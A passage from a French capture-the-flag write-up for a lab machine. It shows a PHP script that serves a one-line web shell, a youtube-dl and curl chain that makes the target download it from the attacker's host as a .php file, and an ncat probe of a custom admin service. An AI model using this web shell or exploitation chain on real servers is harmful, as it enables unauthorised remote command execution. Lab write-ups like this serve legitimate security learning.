 Voici à quoi ressemblait mon script PHP :

```php
<?php
echo $_SERVER['REQUEST_METHOD'];
echo '<?php system($_GET["cmd"]); ?>';
?>
```

Et l'exécution en local :

```shellsession
$ youtube-dl --restrict-filenames --extract-audio --audio-format=mp3  "http://192.168.56.1/getmethod.php" -o "yolo.%(ext)s"
[generic] getmethod: Requesting header
WARNING: Falling back on generic information extractor.
[generic] getmethod: Downloading webpage
WARNING: URL could be a direct video link, returning it as such.
[download] Destination: yolo.php
[download] 100% of 33.00B in 00:00
ERROR: WARNING: unable to obtain file audio codec with ffprobe
```

Maintenant il faut se servir de l'API du site pour reproduire l'explotation :

```shellsession
$ curl -H "X-REQUESTED-WITH: xmlhttprequest" -XPOST  --data 'yt_url=http://192.168.56.1/getmethod.php' http://192.168.56.68/
{
  "status":1,
  "errors":"WARNING: Falling back on generic information extractor.\nWARNING: URL could be a direct video link, returning it as such.\nERROR: WARNING: unable to obtain file audio codec with ffprobe\n",
  "url_orginal":"http:\/\/192.168.56.1\/getmethod.php",
  "output":"",
  "result_url":"\/tmp\/downloads\/6389b2b8581b0.mp3"
}
```

Comme le script a la gentilesse de nous fournir l'identifiant aléatoire j'ai retrouvé mon webshell à l'emplacement `/tmp/downloads/6389b2b8581b0.php`. Enfiiiiiiin !

## git commit -m "exécute mon truc"

Je n'ai pas encore parlé du service custom sur le port 4545. Ce service offre deux choix, voici le comportement sur le premier :

```shellsession
$ ncat 192.168.56.68 4545 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.68:4545.
========== Welcome to DMV Admin ==========
Select product to update:
1) Main site
2) DMV Admin
other) Exit
1
Output:
From ssh://127.0.0.1/home/developerdmv/site
 * branch            master     -> FETCH_HEAD
Already up to date.
```
